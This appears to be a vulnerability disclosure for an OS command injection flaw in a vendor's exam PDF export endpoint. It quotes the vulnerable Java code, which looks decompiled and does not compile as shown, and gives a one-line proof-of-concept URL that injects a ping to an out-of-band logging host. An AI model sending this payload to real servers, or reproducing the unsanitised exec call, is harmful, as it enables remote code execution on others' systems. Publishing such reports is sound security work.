


# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

## Title:
Arbitrary Command Execution in Exam Export PDF Functionality

### Summary:
The code provided contains a critical vulnerability that allows for arbitrary command execution. By manipulating the 'id' parameter in the '/plan/examExportPDF' endpoint, an attacker can inject and execute arbitrary commands on the underlying operating system.

### Affected Endpoint:
/plan/examExportPDF

### Vulnerability Type:
Arbitrary Command Execution (RCE)

### Vulnerable Code:
```java
@RequestMapping({"/plan/examExportPDF"})
public void examExportPDF(HttpServletResponse response, @RequestParam("id") String id) {
    try {
       Runtime run = Runtime.getRuntime();
       String rootPath = ContextLoader.getCurrentWebApplicationContext().getServletContext().getRealPath("/");
       String fileName = System.currentTimeMillis() + ".pdf";
       String filePath = rootPath + "/pdffile/" + fileName;
       File dir = new File(rootPath + "/pdffile/");
       if (!dir.exists()) {
          dir.mkdir();
       }

       Process process = run.exec("/opt/source/wkhtmltox/bin/wkhtmltopdf --page-size A3 "
               + CommonConstants.contextPath + "/plan/exam/info?id="
               + id
               + " "
               + filePath);
       process.waitFor();
       response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName, "UTF-8"));
       InputStream in = new FileInputStream(new File(filePath));
       int len = false;
       byte[] buf = new byte[1024];
       OutputStream out = response.getOutputStream();

       int len;
       while((len = in.read(buf)) > 0) {
          out.write(buf, 0, len);
       }

       in.close();
    } catch (Exception var13) {
       logger.error("---------------------" + var13);
    }
}
```

### Proof of Concept (PoC):
```
http://uri/plan/examExportPDF?id=1;ping 9e9e4078.log.nat.cloudns.ph.;
```



### Impact:

An attacker can exploit this vulnerability to execute arbitrary commands on the server hosting the application. This could lead to data theft, unauthorized access, and potential compromise of the entire system.

### Recommendation:
1. Validate and sanitize user input to prevent command injection attacks.
2. Avoid using user input directly in command execution.
3. Implement proper input validation and output encoding to mitigate such vulnerabilities.

### Conclusion:
The code provided is vulnerable to arbitrary command execution due to improper handling of user input. It is crucial to address this issue promptly to prevent potential exploitation by malicious actors.

### References:
N/A

